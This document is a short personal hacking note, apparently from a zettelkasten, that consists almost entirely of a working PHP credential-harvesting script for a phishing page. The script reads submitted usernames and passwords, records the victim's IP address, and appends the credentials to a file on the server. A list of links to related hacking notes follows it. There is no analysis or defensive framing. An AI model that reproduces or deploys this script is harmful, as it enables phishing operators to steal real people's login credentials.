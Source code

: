 # php quick client phishing attack credential harvesting
```php
<?php
// Turn off all error reporting
//error_reporting(0);

function get_ip() {
    if (function_exists('apache_request_headers')) {
      $headers = apache_request_headers();
    } else {
      $headers = $_SERVER;
    }
    if (array_key_exists('X-Forwarded-For',$headers) && filter_var($headers['X-Forwarded-For'],FILTER_VALIDATE_IP,FILTER_FLAG_IPV4)) {
      $the_ip = $headers['X-Forwarded-For'];
    } elseif (array_key_exists('HTTP_X_FORWARDED_FOR',$headers) && filter_var($headers['HTTP_X_FORWARDED_FOR'],FILTER_VALIDATE_IP, FILTER_FLAG_IPV4)) {
      $the_ip = $headers['HTTP_X_FORWARDED_FOR'];
    } else {
      $the_ip = filter_var($_SERVER['REMOTE_ADDR'],FILTER_VALIDATE_IP,FILTER_FLAG_IPV4);
    }
    return $the_ip;
  }

$password = $_POST['PasswordForm'];
$username = $_POST['UsernameForm'];


$ip = get_ip();
$browser = $_SERVER['HTTP_USER_AGENT'];
$host = $_SERVER['HTTP_HOST'];

if ($password != '') {
  $creds = $ip . '|' . $username . '|' . $password . "\n";
}

$myfile = fopen("/tmp/creds", "a") or die("Unable to open file!");
fwrite($myfile, $creds);
fclose($myfile);
?>
```
` zet/20221003150577/README.md `

# Related

- [20221014185956](/zet/20221014185956/README.md) kb file named kb/hacking/php/PHP-credential-harvesting-write-file.md
- [20221018160416](/zet/20221018160416/README.md) phishing or credential harvesting concept
- [20221008215655](/zet/20221008215655/README.md) user account
- [20221008215530](/zet/20221008215530/README.md) username
- [20221008215325](/zet/20221008215325/README.md) password
- [20221007220451](/zet/20221007220451/README.md) hacking notes hub

Tags:

    
